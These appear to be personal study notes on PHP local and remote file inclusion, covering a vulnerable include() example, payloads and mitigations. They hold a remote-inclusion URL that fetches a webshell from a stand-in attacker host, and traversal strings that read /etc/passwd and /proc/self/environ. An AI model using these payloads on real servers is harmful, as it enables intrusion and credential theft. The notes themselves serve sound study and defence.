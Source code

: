 Personal Home Page [[PHP]]
**Include and require allow for ##RFI (remote file inclusivity) and ##LHI (local file inclusivity)** 
**	Exploitations: Adding onto =?  and adding/../../..etc/password**


Here’s the text without asterisks for easy copying:

---

### File Inclusion Vulnerability Notes 📝  

#### 📌 Overview of File Inclusion in PHP
- PHP applications may include user-supplied files using `include` or `require`, leading to vulnerabilities.
- The `allow_url_fopen` and `allow_url_include` directives (before PHP 5.2.0) allow remote file inclusion (RFI).
- If input is not validated, attackers can manipulate the file path to access unintended files.

---

### 📂 Example of Vulnerable Code
```php
if (isset($_GET['language'])) {
    include($_GET['language'] . '.php');
}
```
- Intended to load `english.php` or `french.php`, but an attacker can modify the `language` parameter.

---

### ⚠️ Exploitation Techniques
#### 1️⃣ Remote File Inclusion (RFI)
- If `allow_url_include=On`, an attacker can inject external scripts:
  ```
  /vulnerable.php?language=http://evil.example.com/webshell.txt
  ```
  - This loads and executes a remote malicious file.

#### 2️⃣ Local File Inclusion (LFI)
- Instead of a valid file, an attacker can navigate directories:
  ```
  /vulnerable.php?language=../../../../etc/passwd
  ```
  - Reads system files like `/etc/passwd` (user accounts).

#### 3️⃣ Windows File Path Injection
- Load files from Windows directories:
  ```
  /vulnerable.php?language=C:\ftp\upload\exploit
  ```

#### 4️⃣ Null Byte Injection (Old PHP Versions)
- Older PHP versions allowed null byte termination:
  ```
  /vulnerable.php?language=C:\notes.txt%00
  ```
  - This bypassed the `.php` suffix restriction (patched in PHP 5.3+).

#### 5️⃣ Accessing Environment Variables
- Read system environment variables:
  ```
  /vulnerable.php?language=../../../../proc/self/environ
  ```
  - Could expose server credentials.

---

### 🛡️ Mitigation Strategies
✅ Whitelist Allowed Files  
```php
$allowed = ['english', 'french'];
if (isset($_GET['language']) && in_array($_GET['language'], $allowed)) {
    include($_GET['language'] . '.php');
}
```
✅ Disable Remote Includes (`php.ini` settings):  
```
allow_url_include=Off
allow_url_fopen=Off
```
✅ Use Absolute Paths to prevent directory traversal.  
✅ Sanitize User Input (Remove `../` to prevent traversal).  
✅ Use a Switch/Case Statement instead of direct `include()`.

---

### 🔍 Reference Materials
- Wikipedia: [File Inclusion Vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)  
- OWASP Guide: [Testing for Local File Inclusion](https://owasp.org/www-community/attacks/Testing_for_Local_File_Inclusion)  

---


![[Pasted image 20250212142352.png]]